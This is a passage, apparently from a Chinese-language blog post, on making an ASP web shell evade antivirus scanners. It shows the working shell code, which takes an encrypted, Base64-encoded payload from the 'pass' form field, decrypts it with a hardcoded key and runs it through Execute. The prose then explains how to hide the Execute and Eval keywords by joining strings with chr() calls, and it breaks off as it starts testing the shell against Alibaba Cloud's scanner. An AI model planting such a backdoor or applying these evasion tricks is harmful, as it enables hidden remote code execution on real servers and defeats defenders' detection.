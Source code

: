 ```
    BinaryStream.Position = 0
    if isBin then
        BinaryStream.Type = 1
        decryption=BinaryStream.Read()
    else
        decryption=BinaryStream.ReadText()
    end if

End Function
    key="3c6e0b8a9c15224a"
    content=request.Form("pass")
    if not IsEmpty(content) then

        if  IsEmpty(Session("payload")) then
            content=decryption(Base64Decode(content),false)
            Session("payload")=content
            response.End
        else
            content=decryption(Base64Decode(content),true)
            bypassDictionary.Add "payload",Session("payload")
            Execute(bypassDictionary("payload"))
            result=run(content)
            response.Write("11cd6a")
            if not IsEmpty(result) then
                response.Write Base64Encode(decryption(result,true))
            end if
            response.Write("ac826a")
        end if
    end if
%>

```  
  
我们会发现Execute(bypassDictionary("payload")) 这一句肯定是检查的重点了。经过看文章，一共就三个执行命令的函数，  
  
Eval  
  
Execute  
  
ExecuteGlobal  
  
大概率是不好过了。asp可以使用chr（97）这种方式进行混淆关键字。但是eval这种不可以。  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNCaMHBW2NPnjYs1tsorNWKCdsYiawDhrQYAOPNwGLibDhibHeFicwvTQ9Fw/640?wx_fmt=png&from=appmsg "")  
  
  
类似这种。字符串和chr拼接。  
  
大概这样  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/YASaCnhaOWNbgyeNL7iccst0ZMnKmsNYNtUdalK3u30MKj2joXpcsEtH2poGiaQoEkE4iaqkb9s8scJAoazTibGdNg/640?wx_fmt=png&from=appmsg "")  
  
  
看一下查杀效果，首先看最强的阿里云  
  
